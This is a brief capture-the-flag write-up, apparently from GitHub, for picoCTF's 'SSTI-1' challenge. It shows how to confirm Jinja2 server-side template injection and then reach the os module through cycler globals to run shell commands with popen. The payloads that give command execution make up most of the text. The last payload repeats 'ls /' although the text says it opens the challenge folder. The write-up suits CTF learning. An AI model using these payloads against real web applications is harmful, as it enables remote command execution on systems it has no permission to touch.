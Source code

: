 #SSTI-1
**Category**: exploitation  
**Difficulty**: Easy  
**Platform**: picoCTF  
**Points**: 100

#Validate Server-Side Template Injection(identify injection point)

#Jinja2 SSTI

Use {{7*7}} to validate

#craft payload

import is banned, so we use cycler.__init__.__globals__to get module 'os'

{{cycler.__init__.__globals__['os']}}

#Exploit

With 'os' module, we use popen to open cmd and run 'ls' to find the repo and related file

{{cycler.__init__.__globals__['os'].popen('ls /').read()}}

Find the repo 'challenge', then open challenge and list the file, the find flag

{{cycler.__init__.__globals__['os'].popen('ls /').read()}}